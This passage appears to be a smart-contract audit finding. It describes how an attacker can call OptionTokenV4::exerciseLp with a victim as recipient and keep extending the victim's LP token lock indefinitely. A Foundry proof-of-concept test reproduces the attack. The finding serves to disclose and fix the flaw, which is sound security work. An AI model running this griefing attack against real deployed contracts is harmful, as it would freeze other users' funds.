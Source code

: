 However, if the lock time has not passed, it is updated to the newLockEnd duration, which is block.timestamp + _lockDuration in the future. An attacker can exploit this the following way:

Alice locks 1e18 LP tokens for 1 week
Attacker backruns and calls OptionTokenV4::exerciseLp by specifying Alice's address as the recipient
Alice's lock period is now extended by 52 weeks
After one week, Alice attempts to withdraw but her call reverts unexpectedly.
In this case, Alice's tokens are locked for 52 weeks. After 51 weeks has passed, the attacker can repeat the call to extend for another 52 weeks, indefinitely locking her tokens. It's important to note that this can only be done by the attacker by locking on her behalf before her lock period ends, because that way it will extend her lock period rather than create a new lock period.

## Proof of Concept

Add the following to test/OptionTokenV4.t.sol and run forge test --mt testGaugeWithdrawBlocked -vv
```javascript
    function testGaugeWithdrawBlocked() public {
        vm.startPrank(address(owner)); // address of Alice
        FLOW.approve(address(oFlowV4), TOKEN_1);
        // mint Option token to owner 2
        oFlowV4.mint(address(owner2), TOKEN_1); // address of attacker
        washTrades();
        flowDaiPair.approve(address(gauge),TOKEN_1);

        uint256 lpBalanceBefore = flowDaiPair.balanceOf(address(owner));
        gauge.depositWithLock(address(owner), TOKEN_1, 7 * 86400); // Alice deposits for 1 week
        uint256 startLockDuration = 7 * 86400 / 86400 / 7;
        console.log("Number of weeks for Alice's lock duration: ", startLockDuration);
        vm.stopPrank();

      
        vm.startPrank(address(owner2)); // attacker backruns and deposits with lock on behalf of user
        DAI.approve(address(oFlowV4), TOKEN_100K);
        (uint256 paymentAmount, ) = oFlowV4.exerciseLp(TOKEN_1, TOKEN_1, address(owner),20,block.timestamp);
        vm.stopPrank();

        uint256 newLockDuration = oFlowV4.getLockDurationForLpDiscount(20) / 86400 / 7;

        console.log("Number of weeks Alice's lock duration is extended by the attacker: ", newLockDuration);

        vm.warp(block.timestamp + 7 * 86400 + 1); // more than 1 week has passed

        vm.startPrank(address(owner));
        vm.expectRevert("The lock didn't expire");
        gauge.withdraw(TOKEN_1);
        vm.stopPrank();
    }
```
